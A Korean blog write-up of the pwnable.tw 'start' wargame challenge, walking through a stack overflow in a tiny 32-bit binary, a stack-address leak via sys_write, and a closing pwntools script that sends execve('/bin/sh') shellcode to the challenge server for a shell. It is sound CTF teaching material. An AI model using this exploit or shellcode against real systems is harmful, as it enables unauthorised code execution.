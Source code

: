 ```yaml
---
layout: post
title: pwnable.tw - start Write Up
tags: [pwnable, writeup, wargame]
categories : [pwnable]
comments : true
---
```




## Analysis

![1](https://user-images.githubusercontent.com/23413308/45689125-1bbe3300-bb8e-11e8-81ee-a584c7fd97e0.png)

32bit 리눅스 파일이고 stripped은 걸려있지 않습니다.



![2](https://user-images.githubusercontent.com/23413308/45689176-3f817900-bb8e-11e8-8325-3a8db2981354.png)

start 문제임에 걸맞게(?) 보호 기법도 아무것도 걸려있지 않네요.

스트립 되어있지 않으니 objdump를 통해 어셈을 한 번 봐봅시다.





![3](https://user-images.githubusercontent.com/23413308/45689205-5627d000-bb8e-11e8-92a8-2ec0e395c827.png)

_start와 _exit로 구성되어 있고 int 0x80 들을 보니 sys_call을 통해서 프로그램이 동작하고 있는 것 같습니다.

_start 함수에 0x804808f 부분의 호출은 0x4번 이므로 sys_write, 0x8048097 부분의 호출은 0x3번이므로 sys_read네요.

sys_write를 호출 하기 전에 push를 많이 해주는 것을 보아 저 부분에서 문자열을 push 해준 후 0x3c만큼 입력을 받는 프로그램이네요.

한 번 실행을 해봅시다.



![4](https://user-images.githubusercontent.com/23413308/45689271-87a09b80-bb8e-11e8-86d1-ea3847cd320b.png)

push 해줬던 부분은 Let's start the CTF: 부분이겠고 입력을 받은 후에는 그냥 종료되네요.

gdb를 붙여서 어떤 식으로 exploit을 할 수 있을지 봅니다.



![5](https://user-images.githubusercontent.com/23413308/45689305-9e46f280-bb8e-11e8-8a76-448dc491fa6c.png)

입력을 받은 직후인 add esp, 0x14 부분에 브레이크 포인트를 걸고 실행을 해봅시다.

stack 부분을 보면 esp+0x14에 _exit 함수의 주소가 있는 것이 보이네요. esp+0x14 후 ret 이니 _exit 함수가 호출되면서 종료되는 것 같습니다.

그러면 저 부분을 조작할 수 있으면 익스플로잇이 가능하겠군요!





![6](https://user-images.githubusercontent.com/23413308/45689363-be76b180-bb8e-11e8-82c0-04154a8d9ae0.png)

esp 부분을 보면 입력한 A가 10개 들어있고 그 다음에 0x0804809d가 있습니다. 해당 부분은 _exit의 주소네요.

저 부분을 수정하면 eip를 조종할 수 있을 것 같습니다. 그리고 바로 뒤에 0xffffd710은 stack 부분의 주소네요.

일단 eip 조종이 가능한지 확인을 해봅니다.





![7](https://user-images.githubusercontent.com/23413308/45689416-e239f780-bb8e-11e8-821e-17b715274f7f.png)

본래 _exit 주소가 있던 부분을 A로 덮었더니 eip가 0x41414141로 바뀌었습니다. 그렇다면.. 어떻게 익스플로잇을 할까요?



프로그램이 동작하는 것을 요약하면

1. 문자열을 푸시한다.
2. sys_write를 통해 푸시한 문자열을 출력한다.
3. sys_read를 통해 사용자 입력을 받는다.
4. esp+0x14 부분의 명령을 실행한다.



그렇다면 esp+0x14 부분(_exit 함수가 있는 부분)을 write를 호출하는 부분으로 덮어씌우면 stack의 주소가 sys_write를 통해 출력이 되고 sys_read가 호출이 됩니다.



![8](https://user-images.githubusercontent.com/23413308/45689499-14e3f000-bb8f-11e8-84c3-a47c5a3d9d0d.png)

이 사진을 통해 설명하면 0xffffd710 부분이 leak이 되고 현재 esp는 0xffffd710를 가리키겠죠?

read를 통해 입력을 받으면 0xffffd710 부분이 채워지게 되고 esp+0x14 부분이 eip가 됩니다.



어떻게 익스할 지 보면

1. 첫 번째 _exit를 write 주소로 바꿔서 stack_addr leak
2. leak된 주소부터 다시 똑같은 상황이 발생하므로 eip 컨트롤 가능
3. eip 컨트롤을 해준 후 뒷 부분에 shellcode를 넣고 eip가 그곳을 가리키게 하면 된다!

입니다.



설명이 너무 주저리주저리여서.. 이해가 안되시면 밑에 exploit 코드와 해당 문제의 어셈 코드 및 스택 구조를 따라가보면 이해가 되실 겁니다.



## exploit code

```python
from pwn import *

r = remote("chall.pwnable.tw", 10000)
r.recv()
r.send("A"*20 + p32(0x08048087))

stack_addr = u32(r.recv(4))

print "stack_addr : " + hex(stack_addr)

shellcode = asm("xor ecx, ecx")
shellcode += asm("mul ecx")
shellcode += asm("push ecx")
shellcode += asm("push 0x68732f2f")
shellcode += asm("push 0x6e69622f")
shellcode += asm("mov ebx, esp")
shellcode += asm("mov al, 11")
shellcode += asm("int 0x80")

r.send("A"*20 + p32(stack_addr + 0x14) + shellcode)

r.interactive()
```



![9](https://user-images.githubusercontent.com/23413308/45689698-9b98cd00-bb8f-11e8-8cf9-10cb38621c43.png)

